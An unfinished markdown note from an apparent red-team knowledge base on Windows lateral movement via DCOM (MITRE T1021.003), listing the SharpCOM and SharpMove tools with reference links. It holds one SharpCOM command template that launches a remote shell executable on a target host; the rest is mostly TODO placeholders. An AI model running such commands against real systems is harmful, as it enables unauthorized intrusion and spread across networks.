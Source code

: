 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - T1021-003
  - network-protocols
  - msrpc
  - offensive-tools
  - windows
---
```

# Binaries

## 01 - SharpCOM

TODO: Fill this info

```
C:\> SharpCOM.exe --Method <ShellWindows | MMC | ShellBrowserWindow | ExcelDDE> --ComputerName <target_IP> --Command "C:\path\to\remote\shell.exe"
```

## 02 - [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Lateral Movement/Windows/02 - RPC/01 - Service Control Manager/Offensive Tools/Binaries|SharpMove]]

TODO: Fill this info (refer to links)

```

```

---
## References

### Github

- [SharpCOM](https://github.com/rvrsh3ll/SharpCOM)

### Hacking Articles

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)